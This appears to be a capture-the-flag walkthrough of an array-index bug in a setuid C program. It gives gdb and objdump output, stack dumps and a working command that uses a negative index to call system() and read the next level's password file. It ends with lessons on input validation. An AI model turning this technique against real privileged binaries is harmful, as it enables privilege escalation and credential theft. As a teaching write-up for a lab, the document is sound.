 ## Level 3: validate user input and array boundaries

As before,
the password for the next level is in `/home/level03/.password`,
and a vulnerable setuid program with its source code is in `/levels/level03`.

Let's first play with the program to see what it does:
```
$ /levels/level03/level03
Usage: ./level03 INDEX STRING
Possible indices:
[0] to_upper    [1] to_lower
[2] capitalize  [3] length
$ /levels/level03/level03 0 hello
Uppercased string: HELLO
$ /levels/level03/level03 2 hello
Capitalized string: Hello
```

It takes a string and runs some function on it depending on the index.
Let's try to misuse this, for example with a negative index:
```
$ /levels/level03/level03 -1 x
Segmentation fault
```

Ouch. That can't be good.
Let's look at the relevant source code to see what happens to a negative index:
```
int main(int argc, char **argv) {
  int index;
  fn_ptr fns[NUM_FNS] = {&to_upper, &to_lower, &capitalize, &length};

  // Parse supplied index
  index = atoi(argv[1]);

  return truncate_and_call(fns, index, argv[2]);
}
```

The `main` method converts the index to an integer,
and calls `truncate_and_call` with 
an array of functions, the index, and the string argument.
Let's see this other function:
```
int truncate_and_call(fn_ptr *fns, int index, char *user_string) {
  char buf[64];
  // Truncate supplied string
  strncpy(buf, user_string, sizeof(buf) - 1);
  buf[sizeof(buf) - 1] = '\0';
  return fns[index](buf);
}
```

It truncates the string to 64 characters,
takes a function pointer from the `fns` array,
and calls it using the truncated buffer as parameter.

By applying pointer arithmetics,
a negative index will reference a memory location before the beginning of `fns`,
which happens to be on the stack.
The stack is a memory region to store local variables,
function parameters, return values, among others.
Roughly the following happens when `truncate_and_call` is called from `main`:

1. The function parameters are pushed on the stack in reverse order:
   the string, the index, the array of functions.

2. The pointer to the next instruction is pushed on the stack.

3. The function `truncate_and_call` is called.

4. The local variable `buf` is pushed on the stack.

When we reach the line of `fns[index](buf)`,
the content of the stack looks something like this:
```
0x0000      content of buf (1024 bytes)
0x0040+?    the return address
...
0x0040+X    content of fns (16 bytes) -->
0x0040+X        address of to_upper (4 bytes)
0x0040+X+4      address of to_lower
...
0x00??      content of index
0x00??      content of user_string
```

If index is 0-3,
the program will find the address of `to_upper`, `to_lower`, and so on,
and execute it.
Using a negative index,
the program will do the same with whatever it finds at that location.

If the content of `buf` is stored in the region before `fns`,
we can put there the address of another function,
and use the appropriate negative index to make the program execute it.
The unused `run` function that was careless left inside the program looks perfect for our purposes:
```
int run(const char *str) {
  // This function is now deprecated.
  return system(str);
}
```

It takes a string and calls `system`,
which in turn will run it in the shell.
Since we can control the parameter,
we can make the program run whatever we want.
We can find the address of `run` using `objdump`:
```
$ /levels/level03/level03 -1 x
$ objdump -d /levels/level03/level03 | grep run
0804879b <run>:
080487ae <truncate_and_call>:
 8048806:   74 05                   je     804880d <truncate_and_call+0x5f>
 80488f1:   e8 b8 fe ff ff          call   80487ae <truncate_and_call>
```

To find the right negative index,
we need to figure out the distance between `fns` and `buf` in the memory.
We can do that using `gdb`:
```
$ gdb /levels/level03/level03
(gdb) run -1 AAAAAAAA
Starting program: /levels/level03/level03 -1 AAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0xb77e1334 in ?? () from /lib/libc.so.6
```

That is,
we run the program with a negative index to make it crash,
and `AAAAAAAA` as the string to make it easy to spot when we inspect the memory content.
When the program crashes,
`gdb` outputs the address of the code it could not execute,
in this example `0xb77e1334`.
Let's see the first couple of bytes of the stack:
```
(gdb) x/60xw $sp      
0xbfae3d6c: 0x41414141  0x41414141  0x00000000  0x00000000
0xbfae3d7c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d8c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d9c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3dac: 0xaf5a90a9  0x00000000  0x0000000a  0xbfae3df8
0xbfae3dbc: 0x080488f6  0xbfae3dd8  0xffffffff  0xbfae4e4b
0xbfae3dcc: 0x08048921  0xb7705f52  0xb77e1334  0x08048624
0xbfae3ddc: 0x08048680  0x080486dc  0x08048759  0x0000044e
```

The string `AAAAAAAA` is easy to spot,
now we know that `buf` starts at `0xbfae3d6c`.
And since `fns[-1]` contains `0xb77e1334`,
now we also know that `fns[0]` is at `0xbfae3dd8`.
Before we can calculate the correct negative index,
consider that we need to use `buf` for more than one purpose:

1. It should contain the address of the `run` method somewhere within.

2. It should start with shell command that
   reveals the content of the password file.

If, for example,
we put the command `cat /home/level03/.password;` in the string,
followed by the address of the `run` method,
the memory content will look something like this:
```
0xbfae3d6c:   c a t       / h o m     e / l e     v e l 0
0xbfae3d7c:   3 / . p     a s s w     o r d ;   0x0804879b
0xbfae3d8c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d9c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3dac: 0xaf5a90a9  0x00000000  0x0000000a  0xbfae3df8
0xbfae3dbc: 0x080488f6  0xbfae3dd8  0xffffffff  0xbfae4e4b
0xbfae3dcc: 0x08048921  0xb7705f52  0xb77e1334  0x08048624
```
The difference between `fns` and the jump address is `0xbfae3dd8 - 0xbfae3d88 = 80`,
and since the size of an element in `fns` is 4 bytes,
the index we're looking for is -20:
```
$ /levels/level03/level03 -20 "cat /home/level03/.password;$(printf '\x9b\x87\x04\x08')"
eingaima
cat: can't open '��': No such file or directory
```

### Lessons to learn

- When validating user input,
  remember to consider nonsense input too,
  like negative indexes in this example.
  This is also known as *fuzz testing*.

- Always check array boundaries:
  make sure they are not breached at either end.

- Remove unused, deprecated code,
  especially if it may be dangerous.

